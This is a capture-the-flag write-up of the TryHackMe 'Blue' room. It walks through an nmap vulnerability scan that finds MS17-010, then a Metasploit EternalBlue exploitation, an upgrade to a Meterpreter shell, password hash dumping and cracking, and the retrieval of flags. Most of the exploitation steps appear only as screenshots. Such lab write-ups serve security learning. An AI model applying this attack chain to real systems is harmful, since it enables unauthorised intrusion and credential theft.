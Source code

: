 # Blue

## Blue

***

## Info

| Name         | Blue                                                                                      |
| ------------ | ----------------------------------------------------------------------------------------- |
| Room link    | https://tryhackme.com/room/blue                                                           |
| Difficulty   | Easy                                                                                      |
| Created by   | [ben](https://tryhackme.com/p/ben) & [DarkStar7471](https://tryhackme.com/p/DarkStar7471) |
| solving date | March 27th 2022                                                                           |
| ----         |                                                                                           |

### Task 1: Recon

* Starting nmap scan

```
└─# nmap --script vuln $target     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-27 04:11 EDT
Stats: 0:00:48 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 89.08% done; ETC: 04:11 (0:00:04 remaining)
Nmap scan report for 10.10.226.142
Host is up (0.083s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_ssl-ccs-injection: No reply from server (TIMEOUT)
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        **servers (ms17-010).   # Question 3 answer** 
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 101.60 seconds
```

💡 Question 2: Answer: 3 ports: 135, 139, 445💡 Question 3: Answer: \*\*ms17-010\*\*

***

### Task 2: Gain Access

* Searching for exploit using Metasploit framework

```
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

*   Show the exploit options

    <img src="../Blue/images/Untitled.png" alt="Untitled" data-size="original">
*   Set Required options

    <img src="../Blue/images/Untitled 1.png" alt="Untitled" data-size="original">
*   Start the exploit

    <img src="../Blue/images/Untitled 2.png" alt="Untitled" data-size="original">

    ***

### Escalating privileges :

*   post exploitation → getting meterpreter shell

    `**use post/multi/manage/shell_to_meterpreter**`

    <img src="../Blue/images/Untitled 3.png" alt="Untitled" data-size="original">
*   Let's check all the sessions we have now

    <img src="../Blue/images/Untitled 4.png" alt="Untitled" data-size="original">
* Great, We Have Meterpreter shell
*   list all the processes to migrate to another process

    <img src="../Blue/images/Untitled 5.png" alt="Untitled" data-size="original">

    * it seems we are NT AUTHORITY\SYSTEM so we don’t have to migrate to another process

***

### Cracking:

*   Dump users passwords

    <img src="../Blue/images/Untitled 6.png" alt="Untitled" data-size="original">

    * **Jon** is a non-Default user
    * Crack his password using john or hashes.com
*   the first flag in the root directory → **C:\ we will type `cd C:\\` because Meterpreter does some handling will the backslash**

    <img src="../Blue/images/Untitled 7.png" alt="Untitled" data-size="original">

    * Great, That’s the first flag
* The second flag at the location where passwords are stored
*   it is **C:\Windows\System32\config**

    <img src="../Blue/images/Untitled 8.png" alt="Untitled" data-size="original">

    * Gotcha!
*   the third flag → “_Administrators usually have pretty interesting things saved._” I think it is in Jon's home folder

    * After Searching it’s in the Documents folder

    <img src="../Blue/images/Untitled 9.png" alt="Untitled" data-size="original">

***

[Blue Badge](https://tryhackme.com/Juba0x430x55/badges/blue) ![my Blue Bade](../Blue/images/mybadge)

### I hope you enjoyed the write-up

* [Linkedin](https://www.linkedin.com/in/juba0x00/)
* [Twitter](https://twitter.com/juba0x00/)
* [TryHackMe](https://tryhackme.com/p/Juba0x430x55)
